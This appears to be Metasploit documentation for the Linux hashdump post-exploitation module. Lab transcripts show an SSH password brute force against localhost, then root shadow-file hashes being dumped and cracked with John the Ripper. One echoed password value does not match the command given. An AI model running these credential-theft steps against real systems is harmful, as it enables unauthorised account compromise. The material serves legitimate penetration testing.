 ## Verification Steps

  Example steps in this format:

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. Do: `use post/linux/gather/hashdump`
  4. Do: `set session <session>`
  5. Do: `run`
  5. You should see the contents of the shadow file

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

### Obtain Hashes

  Typical run against Kali, using ssh_login for initial shell

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:12:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump 
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[+] root:$6$eMImGFXb$3eYV4g315Qf2NA1aQ72yMwnM68PapXfCoP74kAb5vmQoqOz7sDTJQEMPUNNjZSEz.E4tXebqvt2iR3W50L8NX.:0:0:root:/root:/bin/bash
[+] test:$6$gsSmzVTM$vxnEAvs2jEhuFtq0yzgCm.p49RmirvyI6HvPXgbLZCtg1sLp5Q2U82U6Gv6i5hz/pcsz882rnLRAyIL24h3/N.:1000:1000:test,,,:/home/test:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
[*] Post module execution completed
  ```

  This module only works when you are root or have root permisions.  If you only have user permission, expect feedback:

  ```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username test
username => test
msf auxiliary(ssh_login) > set password test
password => test
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'test:test' 'uid=1000(test) gid=1000(test) groups=1000(test) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:44823 -> 127.0.0.1:22) at 2016-09-14 00:24:17 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/hashdump
msf post(hashdump) > set session 1
session => 1
msf post(hashdump) > exploit

[-] You must run this module as root!
[*] Post module execution completed
  ```
  ### Crack Hashes (John the Ripper)
  
The stored file can then have a password cracker used against it.  In this scenario, we'll use john (the ripper).
```
root@k:/git/metasploit-framework# john /root/.msf4/loot/20160914003144_default_127.0.0.1_linux.hashes_080983.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (test)
test             (root)
2g 0:00:00:00 DONE 1/3 (2016-09-14 00:32) 40.00g/s 460.0p/s 480.0c/s 480.0C/s test..oo
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```